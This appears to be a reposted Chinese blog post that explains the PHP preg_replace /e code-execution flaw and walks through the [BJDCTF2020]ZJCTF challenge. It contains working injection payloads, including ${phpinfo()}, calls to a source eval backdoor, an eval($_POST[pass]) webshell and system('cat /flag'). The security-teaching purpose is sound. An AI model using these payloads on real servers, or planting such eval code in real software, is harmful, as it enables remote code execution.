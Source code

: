 # [preg_replace /e 模式 漏洞分析总结](https://www.cnblogs.com/sipc-love/p/14289984.html)

---转载请标明来处

先放个原型

**preg_replace函数原型：**

mixed preg_replace ( mixed pattern, mixed replacement, mixed subject [, int limit])

如果有对preg_replace不了解的可以查看

[https://www.php.net/manual/zh/function.preg-replace.php](https://www.php.net/manual/zh/function.preg-replace.php)

---

#### 模式初识

```bash
/e 修正符使 preg_replace() 将 replacement 参数当作 PHP 代码（在适当的逆向引用替换完之后）。提示：要确保  replacement 构成一个合法的 PHP 代码字符串，否则 PHP 会在报告在包含 preg_replace() 的行中出现语法解析错误。



```

给你们个直观的例子

```bash
preg_replace('/(' . $re . ')/ei','strtolower("\\1")',$str）
```

我一开始也不知道 （ /ei ） 是 什么东西

```bash
1、/g 表示该表达式将用来在输入字符串中查找所有可能的匹配，返回的结果可以是多个。如果不加/g最多只会匹配一个
2、/i 表示匹配的时候不区分大小写，这个跟其它语言的正则用法相同
3、/m 表示多行匹配。什么是多行匹配呢？就是匹配换行符两端的潜在匹配。影响正则中的^$符号
4、/s 与/m相对，单行模式匹配。
5、/e 可执行模式，此为PHP专有参数，例如preg_replace函数。
6、/x 忽略空白模式。
```

明白了/ei是什么，发现 \ \ 1 又不知道是什么了，我又去找了资料

> **反向引用**
> 
> 对一个正则表达式模式或部分模式 **两边添加圆括号** 将导致相关 **匹配存储到一个临时缓冲区** 中，所捕获的每个子匹配都按照在正则表达式模式中从左到右出现的顺序存储。缓冲区编号从 1 开始，最多可存储 99 个捕获的子表达式。每个缓冲区都可以使用 '\n' 访问，其中 n 为一个标识特定缓冲区的一位或两位十进制数。

说人话就是，\谁，就匹配第几个

#### 案例

通常subject参数是由客户端产生的，客户端可能会构造恶意的代码，例如：

```php
<? 
echo preg_replace("/test/e",$_GET["h"],"jutst test"); 
?> 


```

如果我们提交?h=phpinfo()，phpinfo()将会被执行（使用/e修饰符，preg_replace会将 replacement 参数当作 PHP 代码执行）。 、

那如果这样呢

```php
<?
function test($str)
{
}
echo preg_replace("/s*[php](.+?)[/php]s*/ies", 'test("\1")', $_GET["h"]);
?> 
```

提交 ?h=[php]phpinfo()[/php]，phpinfo()会被执行吗？  
肯定不会。因为经过正则匹配后， replacement 参数变为'test("phpinfo")'，此时phpinfo仅是被当做一个字符串参数了。  
有没有办法让它执行呢？

**有**！

在这里我们如果提交?h=[php]{${phpinfo()}}[/php]，phpinfo()就会被执行。为什么呢？  
==在php中，双引号里面如果包含有变量，php解释器会将其替换为变量解释后的结果；单引号中的变量不会被处理。==  
注意：双引号中的函数不会被执行和替换。

那这有没有办法防御呢？

```cmake
将'test("\1")' 修改为"test('\1')"，这样‘${phpinfo()}'就会被当做一个普通的字符串处理（单引号中的变量不会被处理）。
```

##### 总结

preg_replace \e 模式如果 replacement中是双引号的，那有此漏洞

#### 例题（重要）[BJDCTF2020]ZJCTF，不过如此

题目前面我就不详讲了，主要就是文件包含伪协议

之后，拿到next.php的源码

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

foreach函数将参数和参数值分别给了$re和$str，$re作为正则表达式，$str作为要被替换的字符串

要执行上面的漏洞，要正则表达式和字符串匹配起来

于是，playload查看phpinfo

```ruby
?\S*=${phpinfo()}
```

解释一下：\S意思为匹配所有的字符，一定要是大写S，大小写是有区别的

```css
[\s]---表示，只要出现空白就匹配；

[\S]---表示，非空白就匹配；
```

后面的值是个变量，能让漏洞执行这个变量，这个再强调一次，只有在双引号包裹的字符串中才可以解析变量，单引号不行

所以要拿到最后flag我目前想到有三种姿势

1. 利用源码给的getFlag函数
    
    ```ruby
    playload:?\S*=${getFlag()}&cmd=show_source('/flag');
    ```
    

2.利用蚁剑getshell

```ruby
playload:?\S*=${getFlag()}&cmd=eval($_POST[pass]);
或者
playload:?\S*=${eval($_POST[pass])}
```

3.post传参

```scss
playload:\S*=${$_POST[pass]}

post:

pass=system('cat /flag');
```